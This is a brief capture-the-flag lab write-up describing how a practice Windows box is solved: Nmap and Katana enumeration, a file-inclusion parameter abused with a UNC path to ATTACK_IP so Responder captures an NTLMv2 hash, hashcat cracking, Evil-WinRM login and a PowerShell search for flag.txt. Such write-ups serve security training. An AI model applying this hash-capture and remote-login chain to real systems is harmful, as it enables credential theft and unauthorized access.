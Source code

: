 > [!Note] What this box taught?
> 1. Enumeration for services with NMap
> 2. Enumeration on Web Service to discover parameter
> 3. File Inclusion
> 4. RFI with Responder (Yes, this works on Web too)
> 5. Password cracking 
> 6. Enumeration on WinRM

## Solution
Enumerate with NMap found 80 and 5985 (WinRM)

On the 80 Service, use Katana to discover param

A param that led to File Inclusion. Normal RFI doesn't work as it blocks http wrapper.

Run Responder with 

```
sudo responder -I tun0
```

In the param:
```
param=//ATTACK_IP/NONEXISTING_SOMETHING
```

The above code return NTLMv2 hash to crack on hashcat

Use the cracked creds in Evil-WinRM

Run the command to find flag.txt in all directories
```
Get-ChildItem -Path C:\ -Filter flag.txt -Recurse -ErrorAction SilentlyContinue
```